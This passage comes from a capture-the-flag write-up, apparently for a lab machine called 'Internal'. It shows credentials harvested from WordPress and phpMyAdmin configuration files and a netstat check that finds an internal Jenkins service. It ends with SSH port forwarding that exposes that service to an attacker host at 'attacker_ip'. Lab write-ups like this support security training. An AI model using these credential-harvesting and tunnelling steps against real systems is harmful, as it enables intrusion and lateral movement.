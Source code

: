 /opt/wp-save.txt:aubreanna:[REDACTED]

Since the user have an account, we can change the user to aubreanna<br>
> su aubreanna

We can also find wordpress mysql credentials in :<br>
/var/www/html/wordpress/wp-config.php<br>

wordpress:wordpress123<br>
<br>
We can also retrieve some phpmyadmin passwords :<br>
$dbpass=B2Ud4fEOZmVq';<br>
$dbuser='phpmyadmin';<br>

# Privilege escalation

In the home directory, we can find a "Jenkins.txt" saying :<br>
Internal Jenkins service is running on 172.17.0.2:8080

Using netstat, we can verify this information<br>
>netstat -ln 

| Active Internet connections (only servers) | Info            |                   |           |        |
|--------------------------------------------|-----------------|-------------------|-----------|--------|
| Proto Recv-Q Send-Q Local Address          | Foreign Address | State             |           |        |
| tcp                                        | 0               | 0 127.0.0.1:8080  | 0.0.0.0:* | LISTEN |
| tcp                                        | 0               | 0 127.0.0.53:53   | 0.0.0.0:* | LISTEN |
| tcp                                        | 0               | 0 0.0.0.0:22      | 0.0.0.0:* | LISTEN |
| tcp                                        | 0               | 0 0.0.0.0:4444    | 0.0.0.0:* | LISTEN |
| tcp                                        | 0               | 0 127.0.0.1:40003 | 0.0.0.0:* | LISTEN |
| tcp                                        | 0               | 0 127.0.0.1:3306  | 0.0.0.0:* | LISTEN |

A server is running on port 8080 but is not accessible from the outside.<br>
While exploring the system, we can find that docker is running, the webserver may be in this docker environment<br>

### REMOTE PORT FORWARDING

We will make this endpoint accessible to our attacker machine using SSH.<br>
The command is :<br>
> ssh -R ATTACKER_PORT:DESTINATION:DESTINATION_PORT USER@SSH_SERVER

We will execute this command on the server side<br>
> ssh -R 8080:127.0.0.1:8080 user@attacker_ip

Now, the endpoint is avaliable on our attacker machine when accessing localhost:8080 which redirect to 172.17.0.2:8080<br>

An other version, since we have the credentials of the aubreanna user, we can make a LOCAL PORT FORWARDING too.<br>
On our attacker machine, we can run :<br>
> SSH -L ATTACKER_PORT:DESTINATION:DESTINATION_PORT aubreanna@internal.thm
